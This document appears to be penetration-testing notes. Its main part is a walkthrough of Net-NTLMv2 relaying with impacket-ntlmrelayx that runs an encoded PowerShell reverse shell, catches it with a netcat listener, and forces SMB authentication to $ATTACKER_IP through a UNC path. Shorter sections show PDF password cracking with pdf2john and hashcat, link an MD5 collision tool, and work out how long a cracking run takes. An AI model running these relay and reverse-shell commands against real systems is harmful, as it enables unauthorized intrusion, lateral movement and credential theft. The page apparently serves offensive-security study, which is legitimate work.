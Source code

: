 ## Relaying Net-NTLMv2

In case we have access to a user that is unprivileged on one host but may exist and be privileged on another host. We could relay the authentication from one host to another.

{% hint style="info" %}
the target system needs to have UAC remote restrictions disabled or the command execution will fail. If UAC remote restrictions are enabled on the target then we can only use the local _Administrator_ user for the relay attack.
{% endhint %}

{% code overflow="wrap" fullWidth="true" %}
```bash
# setting up an SMB server and relaying the authentication part of an incoming SMB connection to a target (after -enc comes base64-PS-revshell-one-liner)
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.50 -c "powershell -enc JABjAGwAaQBlAG4AdA..."
# now we prepare to catch our revshell on the desired port
rlwrap nc -lvnp 443
# And from the already got shell or from a file upload / other method that allows us to specify UNC path, we trigger the SMB authentication to our attacking machine
dir \\$ATTACKER_IP\test
\\\\$ATTACKER_IP\\test
# We should see an incoming connection on (relay-attack)  to execute the reverse shell on the target host
```
{% endcode %}

## PDF

```bash
pdf2john infrastructure.pdf > hashes
hashcat hashes rockyou.txt -O --force
```

## MD5 Collision

[https://github.com/thereal1024/python-md5-collision](https://github.com/thereal1024/python-md5-collision)

## Cracking time

{% code overflow="wrap" fullWidth="true" %}
```bash
Cracking time = keyspace / hash rate
keyspace = number of different caracters the password can have (X) power number of password's chars (Y)  = XY

# Using all latin alphabet plus digits as chars of the password, for a 5-char length password
echo -n "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789" | wc -c
python3 -c "print(62**5)"
# result determines how many unique variations can be generated for a five-character password with this character set

Hash rate is hash calculations / second. To find it, use Hashcat's benchmark mode for a specific hash algorithm
Differentiate CPU benchmark and GPU benchmark (second applies when there is a GPU attached to hashcat)
1 MH/s equals 1,000,000 hashes per second
```
{% endcode %}
